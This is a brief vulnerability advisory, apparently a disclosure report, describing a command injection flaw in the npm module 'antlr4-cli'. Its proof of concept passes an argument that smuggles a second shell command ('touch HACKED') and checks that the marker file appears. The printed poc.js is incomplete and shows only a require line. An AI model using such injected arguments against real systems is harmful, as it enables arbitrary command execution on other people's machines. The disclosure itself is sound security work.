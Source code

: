 # Description

The `antlr4-cli` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var antlr4 = require("antlr4-cli");

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i antlr4-cli # Install affected module
node poc.js 'simple_argument_in_single_quote;touch HACKED; #' # Run PoC
```
4. Recheck the files: now `HACKED` has been created
